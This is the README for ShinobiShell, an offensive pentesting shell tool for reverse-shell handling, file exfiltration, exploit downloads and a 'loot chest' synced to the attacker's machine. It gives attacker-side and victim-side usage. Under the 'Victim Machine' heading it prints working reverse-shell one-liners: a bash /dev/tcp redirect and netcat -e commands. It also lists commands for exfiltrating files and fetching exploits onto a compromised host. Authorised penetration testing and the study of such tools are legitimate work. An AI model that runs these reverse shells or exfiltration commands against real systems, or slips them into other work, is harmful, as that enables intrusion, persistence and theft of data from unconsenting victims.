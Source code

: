 # ShinobiShell
An experimental shell that handles file exfiltration, exploit injection and various other obnoxious tasks.
```
usage: PROG [options]

Shinobi shell is a shell specifically designed to make exfiltration, proxying,
persistance and other pentesting actions easier.

optional arguments:
  -h, --help            show this help message and exit
  -a, --autoload	Listens for a incoming shell. Then autoloads shinobi shell onto the target
  -t, --ttyCheat        Shows tty shell cheat sheet (need a tty shell for shinobi shell to work)
  -c, --connect         Flag that indicates a reverse shell connection (use this on victim machine)
  -l LISTEN, --listen LISTEN
                        Starts Shinobi Shell listener on port passed in
  -k, --key             Will create an encrpyted tunnel if encrpytion libs available
  -r SERVERADDRESS, --serveraddress SERVERADDRESS
                        Local IP Address used for universal reverse shell
                        handler (optional - use if different than default)
```
## Start your server first:

### Server (Attacking box) 
`./shinobishell.py -l 4443 -k`

`-l` Port server will listen on

`-k` Requesting an encrypted tunnel server


## OPTION 1: Run Shinobi Shell manually on the victim machine

Client (Penetrated box) 
`./shinobishell.py -c -k ` 

`-c` Connect back to a server

`-k` Try and make an encrytped tunnel

For both server and client, you'll be propmted for a password when using `-k`

For `-c` you will be prompted at run time for the server address

Both `-c` and `-k` were moved to runtime inputs to prevent leaking attacking machine address and key in bash history

## OPTION 2: Start a Shinobi Shell listener on your attacking machine and send it a shell

### Attacking Machine

`./shinobishell.py -a`
> Shinobi Tunnel Plaintext ~~ Be aware

> Which port to listen on: 1000

> What is the ShinobiServer address:port combination: 127.0.0.1:443


### Victim Machine

Send a reverse shell 

(tested and known to work)

`/bin/bash -i >& /dev/tcp/127.0.0.1/1000 0>&1`

`nc 127.0.0.1 1000 -e /bin/bash`

`nc 127.0.0.1 1000 -e /bin/sh`


## -h --help Help output

```
Shinobi Shell v1.0
Author: Anthony Russell
Contact: Twitter @DotNetRussell
Blog: https://DotNetRussell.com  (don't hack me bro)

Commands:

help -                      displays help information
machineinfo -               displays a series of machine variables to help with priv esc
searchsploit -              <search text> sends a searchsploit command back to your attacking machine and returns the results through shinobi tunnel
exfil <file name> -         exfiltrates a file back to your attacking machine via shinobi tunnel
ssdownload <exploit path> - downloads a search sploit exploit from your attacking machine
download <url> -            does a wget for your file on your attacking machine and then transfers it to you over shinobi tunnel
linenumdownlods -           linenum.sh to the Shinobi Server and then transfers it back to the client

Loot Chest:

loot store <key> <value> -  stores a key value pair in your loot chest
loot <key> -                gets a loot value
loot show -                 shows everything in loot chest

NOTE: Loot chest auto syncs with attacking machine
	
Auto Aliases
lsa == ls -la
```
